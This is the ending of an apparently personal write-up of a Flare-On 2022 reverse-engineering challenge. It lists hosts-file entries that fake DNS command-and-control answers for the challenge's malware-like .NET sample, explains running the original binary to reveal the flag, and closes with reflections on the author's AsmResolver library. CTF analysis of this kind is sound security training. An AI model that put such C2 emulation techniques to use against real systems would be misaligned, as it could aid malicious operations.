128.0.0.3 mmpppppbsc2oif5qz6juil48axopaaf.flare-on.com
43.49.50.0 1roo0ooob9aaq.flare-on.com
128.0.0.3 44uuuuuj9rdvowqrntdljaav.flare-on.com
43.50.49.0 r7333aax.flare-on.com
128.0.0.2 tt11111ms9d363fy4idz8w7zodfjaa4.flare-on.com
43.51.0.0 z6ffufff96aak.flare-on.com
128.0.0.3 qqfffff8z1p6obhej933fees2l97aa8.flare-on.com
43.49.56.0 ahvvcvvv4paay.flare-on.com
128.0.0.3 4400000qy1ifet31jmiwqaa9.flare-on.com
43.49.55.0 4ftttaar.flare-on.com
128.0.0.3 kkaaaaamdgrc1h8g4ir2maap.flare-on.com
43.50.48.0 86vvvaao.flare-on.com
128.0.0.3 bb33333l6xv7pnfxzkvslaae.flare-on.com
43.49.52.0 ftrrrama.flare-on.com
128.0.0.2 99hhhhhrb1e72yt1wnejramm.flare-on.com
43.57.0.0 swrrrams.flare-on.com
128.0.0.2 88bbbbbdu9u0s4x92rv6oxzk2zqqamj.flare-on.com
43.55.0.0 8iww3wwwiaaml.flare-on.com
128.0.0.2 vv222228iqi9r1pqdjhntplydj17am6.flare-on.com
43.52.0.0 deggcgggvoamz.flare-on.com
```

Add this to your `hosts` file, reset the contents of `flare.agent.id` one more time, and let run the program run for a bit.
For this last step, it is important that you use the original file, as the deobfuscated app actually has a few anti-tampering mechanisms in place that will prevent proper decryption of the final payload.

If you did everything right, eventually you will be greeted with a GIF animation:


... revealing the flag!


## Final words

This challenge is by far the best challenge out of all in the series. 
It has many really interesting layers, starting with the deobfuscation of a creative obfuscation method, then continuing with an elaborate analysis of the malicious codebase, and finally bending it to your will to let it spit out the flag.
While I knew one or two things about .NET obfuscation and deobfuscation, I had never seen a communication protocol that solely works over DNS alone, so it was also very educational for me.
In my opinion this was definitely worthy of being one of the last challenges given the complexity that it has, especially compared to the challenges that followed.
It also is a very nice showcase of how .NET binaries can be made very complicated and really should not be underestimated.

Finally, I would really like to thank Mandiant for including a challenge like this, as it has brought many new users, stars and bugfixes to my [AsmResolver](https://github.com/Washi1337/AsmResolver) project.
For this challenge, many other flare-on runners gave the library a shot, and contacted me for support and/or shared with me that the project really helped them in solving the challenge.
To see a hobby project like this get recognized by this amount of people in the security community in such a short period of time is perhaps the best thing I could have wished for.
So once again, I can only be grateful for this amazing opportunity! 
Thanks a lot!

If you are interested in the full source code of my deobfuscator, you can find it [here](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2022/8/src).